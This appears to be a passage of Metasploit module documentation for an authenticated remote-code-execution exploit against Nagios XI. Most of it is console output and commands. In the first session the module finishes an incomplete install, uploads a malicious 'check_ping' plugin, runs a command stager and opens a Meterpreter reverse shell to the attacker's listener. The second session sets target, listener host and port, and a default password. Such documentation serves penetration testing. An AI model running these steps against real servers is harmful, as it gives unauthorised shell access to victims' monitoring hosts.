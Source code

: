 ```
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[!] The target seems to be a Nagios XI application that has not been fully installed yet.
[*] Attempting to finish the Nagios XI installation on the target using the provided password. The username will be `nagiosadmin`.
[*] Attempting to authenticate to Nagios XI...
[!] The Nagios XI license agreement has not yet been signed on the target.
[*] Attempting to sign the Nagios XI license agreement...
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.3.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[!] For NagiosXi version 5.3.0 it may take several minutes for a session to open. If the module times out, try increasing the `WfsDelay` value.
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012516 bytes) to 192.168.1.16
[*] Meterpreter session 1 opened (192.168.1.28:4444 -> 192.168.1.16:36098) at 2021-04-01 10:42:40 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: nagios @ localhost.localdomain (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter >
```

### Nagios XI 5.6.5 running on Ubuntu 20.04 LTS (finished installation) - Linux (x64) target
```
msf > use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOST 172.25.133.237
RHOST => 172.25.133.237
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LHOST 172.25.132.121
LHOST => 172.25.132.121
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set LPORT 7712
LPORT => 7712
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes s
                                              igning the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          172.25.133.237   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the lo
                                              cal machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
```